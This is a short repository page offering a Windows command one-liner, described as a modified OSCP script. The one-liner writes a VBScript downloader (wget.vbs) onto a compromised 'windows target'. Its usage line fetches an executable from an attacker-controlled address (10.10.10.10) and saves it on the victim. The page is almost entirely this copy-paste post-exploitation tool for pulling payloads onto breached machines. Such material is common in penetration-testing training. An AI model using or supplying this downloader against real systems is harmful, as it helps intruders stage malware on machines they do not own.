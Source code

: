 # wget.vbs-oneliner for windows target {modified OSCP wget.vbs script}

Just copy and paste the script in your windows target.

This will create a file named wget.vbs 

USAGE:
cscript wget.vbs http://10.10.10.10/yourfile.exe yourfile.exe

SCRIPT:
echo strUrl = WScript.Arguments.Item(0) > wget.vbs &echo.StrFile = WScript.Arguments.Item(1)  >> wget.vbs &echo.Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0  >> wget.vbs &echo.Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0  >> wget.vbs &echo.Const HTTPREQUEST_PROXYSETTING_DIRECT = 1  >> wget.vbs &echo.Const HTTPREQUEST_PROXYSETTING_PROXY = 2  >> wget.vbs &echo.Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts  >> wget.vbs &echo.Err.Clear  >> wget.vbs &echo.Set http = Nothing  >> wget.vbs &echo.Set http = CreateObject("WinHttp.WinHttpRequest.5.1")  >> wget.vbs &echo.If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest")  >> wget.vbs &echo.If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP")  >> wget.vbs &echo.If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP")  >> wget.vbs &echo.http.Open "GET", strURL, False  >> wget.vbs &echo.http.Send  >> wget.vbs &echo.varByteArray = http.ResponseBody  >> wget.vbs &echo.Set http = Nothing  >> wget.vbs &echo.Set fs = CreateObject("Scripting.FileSystemObject")  >> wget.vbs &echo.Set ts = fs.CreateTextFile(StrFile, True)  >> wget.vbs &echo.strData = ""  >> wget.vbs &echo.strBuffer = ""  >> wget.vbs &echo.For lngCounter = 0 to UBound(varByteArray)  >> wget.vbs &echo.ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1)))  >> wget.vbs &echo.Next  >> wget.vbs &echo.ts.Close >> wget.vbs
